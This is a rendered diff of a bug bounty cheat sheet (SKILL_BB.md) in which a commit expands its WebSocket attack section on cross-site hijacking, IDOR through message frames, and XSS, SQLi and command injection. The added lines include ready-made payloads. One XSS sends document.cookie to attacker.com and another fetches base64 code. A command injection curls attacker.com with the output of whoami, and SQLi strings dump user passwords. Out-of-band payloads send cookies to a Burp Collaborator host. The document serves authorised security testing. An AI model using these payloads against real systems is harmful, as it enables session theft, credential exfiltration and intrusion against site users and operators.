

Before and after one commit to Sengtocxoen/bugbounty, a Markdown page: SKILL_BB.md, the part around the change. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Fix the bb skill

````diff
--- a/SKILL_BB.md
+++ b/SKILL_BB.md
@@ -1273,8 +1273,11 @@ Cookie: session=VICTIM_TOKEN    ← stolen cookie → replay
 ```
 
 ### Cross-Site WebSocket Hijacking (CSWSH)
+
+**How it works:** The server trusts the `Cookie` header sent automatically by the browser on the WS upgrade request but never validates the `Origin` header. An attacker page at `evil.com` can open a WS connection that the server accepts as the victim, then read all streamed data.
+
 ```html
-<!-- No CSRF protection on WebSocket handshake → attacker page initiates WS as victim -->
+<!-- PoC: attacker-hosted page forces victim's browser to open WS as themselves -->
 <script>
   var ws = new WebSocket("wss://target.com/ws/account");
   ws.onmessage = function(e) {
@@ -1282,16 +1285,67 @@ Cookie: session=VICTIM_TOKEN    ← stolen cookie → replay
   };
 </script>
 ```
-**Precondition:** WebSocket upgrades only validated by `Cookie` (no `Origin` check)
-**Effect:** Attacker's page receives victim's private WebSocket messages
-
-### WebSocket Message Injection
+
+**Detection checklist:**
+- Open the WS upgrade request in Burp; remove or change the `Origin` header → server should reject with 403
+- If the server responds `101 Switching Protocols` regardless of Origin → vulnerable
+- Check `Sec-WebSocket-Protocol` header is present and validated (some servers require a matching subprotocol as implicit auth)
+
+**Precondition:** WS upgrades accepted from any Origin, auth via Cookie only
+**Effect:** Attacker page exfiltrates victim's real-time WS stream (account data, private messages, auth tokens)
+
+---
+
+### IDOR & Unauthorized Access via WebSocket Frames
+
+**How it works:** The server validates auth at HTTP handshake time but blindly trusts the `user_id` (or resource ID) field inside subsequent WS message frames — allowing any authenticated user to act on behalf of another.
+
 ```json
-// Test all message types for injection
-{"type": "message", "to": "OTHER_USER_ID", "body": "<script>alert(1)</script>"}
-{"type": "admin_command", "action": "delete_user", "user_id": "1"}
-{"type": "status", "online": true, "user_id": "VICTIM_ID"}  // Spoof other user's status
-```
+// Escalate to admin action by swapping user_id in the frame payload
+{"user_id": 1337, "action": "delete"}
+{"user_id": 1337, "action": "read_profile"}
+{"user_id": 1337, "action": "export_data", "format": "csv"}
+
+// Test pre-auth: send action frames BEFORE the auth/hello frame
+{"type": "auth", "token": ""}           // empty/missing token
+{"user_id": 9999, "action": "list_all"} // follow immediately — server may not have enforced auth yet
+```
+
+**Detection checklist:**
+- Intercept WS frames (Burp WebSockets tab); replay frames substituting other users' IDs
+- Test whether the server validates the session owner server-side or trusts the frame's `user_id` field
+- Check if unauthenticated connections are accepted before any `auth` frame is sent
+
+---
+
+### Injection via WebSocket (XSS / SQLi)
+
+**How it works:** WS message fields are processed server-side and may be rendered in admin dashboards, stored in the DB, or passed to shell commands — bypassing WAF rules that only inspect HTTP request bodies.
+
+```json
+// Stored XSS → fires when admin views the dashboard
+{"message": "<img src=x onerror=fetch('https://attacker.com/?c='+document.cookie)>"}
+{"username": "<svg/onload=eval(atob('BASE64_PAYLOAD'))>"}
+
+// Blind SQLi — WAF won't see this, WS handler may pass it straight to a query
+{"search": "' OR 1=1--"}
+{"filter": "1 UNION SELECT username,password,null FROM users--"}
+
+// SSTI / command injection if WS feeds a templating or eval path
+{"template": "{{7*7}}"}
+{"cmd": "ping; curl https://attacker.com/$(whoami)"}
+```
+
+**Blind OOB confirmation (always use when output is not returned in the WS response):**
+```json
+{"message": "<script>new Image().src='https://BURP_COLLAB.oastify.com/'+document.cookie</script>"}
+{"search": "' AND (SELECT LOAD_FILE(0x5c5c5cBURPCOLLAB5c))--"}
+```
+
+**Detection checklist:**
+- Use Burp Collaborator / interactsh as OOB callback for every blind payload
+- Verify payloads reach admin-facing surfaces by checking if the dashboard renders untrusted WS content
+- Check whether the server sanitizes input differently over WS vs. REST endpoints on the same backend
 
 ---
 
````
